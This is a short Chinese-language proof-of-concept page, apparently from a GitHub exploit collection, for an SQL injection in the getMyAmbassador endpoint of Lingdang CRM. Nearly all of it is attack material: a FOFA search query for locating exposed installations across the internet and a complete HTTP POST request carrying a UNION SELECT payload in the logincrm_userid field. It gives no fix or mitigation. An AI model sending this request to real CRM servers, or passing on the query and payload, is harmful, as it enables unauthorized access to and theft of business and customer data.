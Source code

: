 # 灵当CRM系统接口getMyAmbassador存在SQL注入漏洞

灵当CRM系统接口getMyAmbassador存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
body="crmcommon/js/jquery/jquery-1.10.1.min.js" || (body="http://localhost:8088/crm/index.php" && body="ldcrm.base.js")
```

## poc

```javascript
POST /crm/WeiXinApp/marketing/index.php?module=Ambassador&action=getMyAmbassador HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close

logincrm_userid=-1 union select user(),2,3#
```

![image-20241227212430930](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272124007.png)